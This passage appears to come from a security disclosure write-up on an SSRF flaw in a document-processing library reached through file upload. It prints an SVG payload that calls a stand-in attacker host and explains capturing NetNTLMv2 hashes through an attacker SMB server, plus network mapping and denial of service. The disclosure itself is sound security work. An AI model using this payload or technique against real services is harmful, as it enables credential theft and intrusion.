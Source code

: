 The use of an SVG file illustrates the possibility of making an `HTTP GET` request by the application to a server controlled by the attacker.

![HTTP callback from remote victim application with a malicious SVG file.](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-2.png)

The screenshot above illustrates this SSRF vulnerability using an SVG file (available below).

```html
<svg width="500" height="500"
    xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <image xlink:href="http://ATTACKER-IP">
</svg>
```

##### Password hash retrieval

In a Windows environment, it is possible to request a resource through a specific path. This functionality can be coupled with this `SSRF` weakness to **redirect the local account of the machine hosting the application to the attacker's SMB server**.

The latter will receive the `NetNTLMv2` hash of this service account.

In the screenshot below, an `SMB` server was deployed on the attacker's machine. By interpreting the SVG file, the attacker's server collects the digest of the machine account `FR********4$`.

![Receiving NetNTLMv2 local machine account digest from the remote server.](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-3.png)

This digest could then be relayed and/or cracked to **attack the initial client's Active Directory environment**.

##### Internal network mapping

This SSRF vulnerability also allows an attacker to map the internal architecture of the client (if it communicates with the Internet).

In the screenshot below, it is possible to reach the server `google.fr`. The attacker could also use the victim machine as a proxy to **impersonate its public IP address**.

![Iframe google.fr](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-4.png)

Finally, an attacker is also able to perform the following actions (not conclusive due to lack of time):

- **Port Scanning**: it is possible to scan the ports of machines on the network.
- **File Reading**: the Aspose plugin seems to be protected against file reading (e.g., the screenshot below. The service redirects to loading the file `C:\Windows\win.ini` but nothing is displayed).
- **Denial of Service**: an attacker is able to upload a document referring to very large images. When processing this image, the library consumes memory and time to process these images.

![No file disclosure with server redirection](/images/hacker-multinationale-via-file-upload-et-ssrf/screens/ssrf-5.png)

#### Risks

The main risks of this vulnerability for clients using this solution are:

- **Credential Theft**: an attacker is able to collect the `NetNTLMv2` digest of a person uploading remote content. This type of challenge can be cracked by the attacker to retrieve the target user's password.
- **Disclosure of Sensitive Images**: processing a document containing a reference to a local image file will result in the disclosure of this file in the final document. This can lead to the disclosure of sensitive information.
- **Mapping the Victim's Information System**: an attacker can map the victim's infrastructure and perform service discovery.
- **Denial of Service**: an attacker can prevent the machine from functioning properly by rendering it unusable.
